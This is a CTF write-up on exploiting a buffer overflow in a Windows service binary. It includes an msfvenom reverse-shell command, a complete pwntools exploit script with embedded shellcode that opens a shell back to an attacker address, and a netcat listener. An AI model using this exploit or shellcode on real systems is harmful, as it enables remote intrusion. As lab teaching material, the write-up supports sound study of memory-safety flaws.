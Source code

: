 # Windows2 CTF Writeup

## Challenge Overview

The challenge involved exploiting a Windows binary named `netservice.exe` with the goal of achieving a reverse shell to the attacker's machine. The binary contained a vulnerability where user input was written directly into a buffer without bounds checking, enabling a classic buffer overflow.

## Analysis

When running the binary, it prompted for input. Upon analysis using tools for example **Ghidra** it was discovered that the input was copied into a stack buffer without proper checks, while also leaking a stack address beforehand which we could use in advance.

The program printed a stack address in the following format:

```
Stack leak: 0x64eec0
```

After this leak, sending an overly long input crashed the binary. Using `cyclic()` and `cyclic_find()` from pwntools, we determined the exact offset to EIP.

### Key Code Analysis

Relevant disassembly snippets:

```asm
mov eax, [esp+4]
call gets  ; unsafe, no length check
```

And:

```asm
printf("Stack leak: %p\n", esp + 0x20)
```

The combination of a stack leak and unsafe input makes this binary vulnerable to classic buffer overflow with shellcode injection.

## Exploitation and Payload Strategy

### Step 1: Finding the Offset

Sending a long `cyclic()` string crashed the binary and overwrote EIP. The crash value (`0x61647062`) indicated an offset of `4108` bytes:

```python
cyclic_find(0x61647062)  # → 4108
```

### Step 2: Using the Stack Leak

The program leaked a stack address. By placing a NOP sled and shellcode at that location, we could redirect EIP to the shellcode reliably.

```python
target_eip = p32(stack_leak + 16)
```

### Step 3: Generating Shellcode

A reverse shell was generated using `msfvenom`:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.196 LPORT=4444 EXITFUNC=thread -f python -b "\x00\x0a\x0d"
```

This shellcode was appended after a NOP sled, right after the EIP overwrite.

### Final Payload:

```python
payload = b"A" * 4108
payload += target_eip
payload += b"\x90" * 32
payload += shellcode
```

The exploit was sent via a script that connects to the vulnerable binary on the VM over port 1234.

### Python Automation Script:

```python
from pwn import *

conn = remote("192.168.1.108", 1234)
stack_leak = int(conn.recvline().strip().split(b': ')[1], 16)

offset = 4108
nop_sled = b'\x90' * 32

# msfvenom shellcode goes here
buf =  b""
buf += b"\xd9\xc1\xbd\xb5\x68\x9d\x1b\xd9\x74\x24\xf4\x5f"
buf += b"\x29\xc9\xb1\x52\x31\x6f\x17\x03\x6f\x17\x83\x5a"
buf += b"\x94\x7f\xee\x58\x8d\x02\x11\xa0\x4e\x63\x9b\x45"
buf += b"\x7f\xa3\xff\x0e\xd0\x13\x8b\x42\xdd\xd8\xd9\x76"
buf += b"\x56\xac\xf5\x79\xdf\x1b\x20\xb4\xe0\x30\x10\xd7"
buf += b"\x62\x4b\x45\x37\x5a\x84\x98\x36\x9b\xf9\x51\x6a"
buf += b"\x74\x75\xc7\x9a\xf1\xc3\xd4\x11\x49\xc5\x5c\xc6"
buf += b"\x1a\xe4\x4d\x59\x10\xbf\x4d\x58\xf5\xcb\xc7\x42"
buf += b"\x1a\xf1\x9e\xf9\xe8\x8d\x20\x2b\x21\x6d\x8e\x12"
buf += b"\x8d\x9c\xce\x53\x2a\x7f\xa5\xad\x48\x02\xbe\x6a"
buf += b"\x32\xd8\x4b\x68\x94\xab\xec\x54\x24\x7f\x6a\x1f"
buf += b"\x2a\x34\xf8\x47\x2f\xcb\x2d\xfc\x4b\x40\xd0\xd2"
buf += b"\xdd\x12\xf7\xf6\x86\xc1\x96\xaf\x62\xa7\xa7\xaf"
buf += b"\xcc\x18\x02\xa4\xe1\x4d\x3f\xe7\x6d\xa1\x72\x17"
buf += b"\x6e\xad\x05\x64\x5c\x72\xbe\xe2\xec\xfb\x18\xf5"
buf += b"\x13\xd6\xdd\x69\xea\xd9\x1d\xa0\x29\x8d\x4d\xda"
buf += b"\x98\xae\x05\x1a\x24\x7b\x89\x4a\x8a\xd4\x6a\x3a"
buf += b"\x6a\x85\x02\x50\x65\xfa\x33\x5b\xaf\x93\xde\xa6"
buf += b"\x38\x5c\xb6\xa9\x7c\x34\xc5\xa9\x6d\x99\x40\x4f"
buf += b"\xe7\x31\x05\xd8\x90\xa8\x0c\x92\x01\x34\x9b\xdf"
buf += b"\x02\xbe\x28\x20\xcc\x37\x44\x32\xb9\xb7\x13\x68"
buf += b"\x6c\xc7\x89\x04\xf2\x5a\x56\xd4\x7d\x47\xc1\x83"
buf += b"\x2a\xb9\x18\x41\xc7\xe0\xb2\x77\x1a\x74\xfc\x33"
buf += b"\xc1\x45\x03\xba\x84\xf2\x27\xac\x50\xfa\x63\x98"
buf += b"\x0c\xad\x3d\x76\xeb\x07\x8c\x20\xa5\xf4\x46\xa4"
buf += b"\x30\x37\x59\xb2\x3c\x12\x2f\x5a\x8c\xcb\x76\x65"
buf += b"\x21\x9c\x7e\x1e\x5f\x3c\x80\xf5\xdb\x5c\x63\xdf"
buf += b"\x11\xf5\x3a\x8a\x9b\x98\xbc\x61\xdf\xa4\x3e\x83"
buf += b"\xa0\x52\x5e\xe6\xa5\x1f\xd8\x1b\xd4\x30\x8d\x1b"
buf += b"\x4b\x30\x84"

target_eip = p32(stack_leak + 16)

payload = b"A" * offset + target_eip + nop_sled + buf

input("Start netcat listener and press Enter...")
conn.sendline(payload)
conn.interactive()
```

## Result and Solution

By sending the payload and simultaneously running a netcat listener on port 4444, we successfully obtained a reverse shell on the VM. The shell ran in the context of the user who started `netservice.exe`.

```bash
ncat -lvnp 4444
```

In the shell:

```cmd
C:\Users\nali> whoami
desktop-m94ck2e
```

## Conclusion and Lessons

- Stack leaks can be leveraged to accurately target NOP sleds.
- Classic buffer overflows remain powerful when input is not properly validated.
- Using `gets()` in modern binaries is a severe risk.
- This challenge reinforced knowledge of offset calculation, shellcode injection, and building reliable exploits.

## References

- ![alt text](/img/image-16.png)
- ![alt text](/img/image-17.png)
